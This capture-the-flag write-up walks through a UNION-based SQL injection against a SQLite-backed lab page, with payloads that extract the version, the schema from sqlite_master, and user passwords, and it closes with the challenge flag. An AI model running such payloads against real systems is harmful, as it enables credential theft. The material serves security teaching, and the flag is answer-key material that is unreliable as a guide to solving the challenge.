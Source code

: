 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> Select the user by ID you wish to view

![1](https://github.com/Kunull/Write-ups/assets/110326359/6a959b03-a547-4541-905b-a2a9d80c4848)

Let's click on the `Submit Query` button.

![2](https://github.com/Kunull/Write-ups/assets/110326359/fdd16ff0-d37f-44e2-b1db-91355a5734fb)

Reading the source code, we can see that the database being used is SQLite and our input is being inserted within the following query:

![3](https://github.com/Kunull/Write-ups/assets/110326359/1742de8f-980c-4496-86c4-342d14b2d981)

```sql
SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1
```

## SQL Injection

In order to retrieve the flag, we first need to retrieve the table name. We can refer this [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) list.

### Extracting SQLite version

The SQLite version can be retrieved using the following query:

```sql
SELECT sqlite_version();
```

Since the original `SELECT` statement selects two columns, we need to do the same in our `UNION` query.

If we provide the following input:

```
1 UNION SELECT Null, sqlite_version();
```

The resultant query will be:

```sql
SELECT id,username FROM users WHERE id=1 UNION SELECT Null, sqlite_version(); LIMIT 1
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/19852d2c-fdd7-4314-b30a-317dfa687674)

The version of SQLite being used is `3.27.2`.

### Extracting database structure

For SQLite versions `3.33.0` and previous, the `sqlite_master` table contains the schema for the database including information about all the tables, indexes, views, and triggers that exist in the database.

```sql
SELECT sql FROM sqlite_master
```

If we provide the following input:

```
1 UNION SELECT Null, sql FROM sqlite_master;
```

The resultant query becomes:

```sql
SELECT id,username FROM users WHERE id=1 UNION SELECT Null, sql FROM sqlite_master; LIMIT 1
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/e4d213c2-8870-4a0e-88be-584162fcd0a5)

There is a `users` table which has three columns: `id`, `username` and `password`.

### Extracting the flag

Now that we know the table name is `users`, we can easily retrieve the password from the table.

If we provide the following input:

```
1 UNION SELECT id, password FROM users;
```

The resultant query becomes:

```
SELECT id,username FROM users WHERE id=1 UNION SELECT id, password FROM users; LIMIT 1
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/76b1488a-e890-45b5-8fc7-d4f598288910)

## Flag

```
WEBSEC{Simple_SQLite_Injection}
```
